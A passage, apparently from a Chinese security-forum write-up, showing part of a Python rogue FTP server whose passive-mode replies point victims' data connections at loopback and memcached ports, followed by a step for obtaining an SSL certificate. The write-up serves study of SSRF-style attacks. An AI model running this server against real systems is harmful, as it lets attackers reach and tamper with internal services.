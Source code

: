 ```python
#
#         self.data = self.rfile.readline().strip().decode()
#         print(6,self.data, file=sys.stderr)
#         self.request.sendall(b'250 Directory successfully changed.\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(7,self.data, file=sys.stderr)
        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192)\r\n')

        self.data = self.rfile.readline().strip().decode()
        print(8,self.data, file=sys.stderr)
        # (47,99,70,18,43,203) 47.99.70.18：11211        # (127,0,0,1,43,0) 11008

        self.request.sendall(b'227 Entering Passive Mode (127,0,0,1,43,192)\r\n')
        self.data = self.rfile.readline().strip().decode()
        print(9,self.data, file=sys.stderr)
        self.request.sendall(b'200 Switching to Binary mode.\r\n')
        # self.data = self.rfile.readline().strip().decode()
        # # assert 'SIZE refs' == self.data, self.data
        # self.finish()
        # print(10,self.data, file=sys.stderr)
        self.request.sendall(b'213 7\r\n')
        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'125 Data connection already open. Transfer starting.\r\n')
        self.data = self.rfile.readline().strip().decode()
        print(self.data, file=sys.stderr)
        self.request.sendall(b'250 Requested file action okay, completed.')
        print("DIE.....")
        # exit()

print("使用端口:",sys.argv[1])

with socketserver.TCPServer(('0.0.0.0', int(sys.argv[1])), MyTCPHandler) as server:
    while True:
        print("start...")
        server.handle_request()
        open("stop", "w").write("OK")
        print("END....")
        # exit()

```

获取域名证书(我这里是腾讯云的SSL证书):

![image-20220629193723351](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-6e7dc312e7896f4b227f147851a2cbd076025380.png)

![image-20220629193742827](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-13e42bd5aadd36c9aa5cde60e6c6c14b0083e1b3.png)

![image-20220629193801411](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-adcbc4cfeac578696bec2b85596845f119ab0d16.png)
